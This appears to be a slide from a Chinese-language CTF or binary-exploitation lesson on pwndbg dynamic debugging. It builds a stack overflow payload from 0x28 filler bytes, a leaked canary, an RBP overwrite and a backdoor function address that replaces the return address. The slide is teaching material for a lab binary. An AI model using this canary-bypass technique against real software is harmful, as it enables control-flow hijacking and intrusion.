

# （二）动态调试-pwndbg
N=8
2.构建payload
payload = b"a"*0x28+p64(canary) +b'a'*8 + p64(0x4011D6)
八位后门函数地址
覆盖返回地址
任意字符8.覆盖RBP
八位canary
任意字符0x28
覆盖局部变量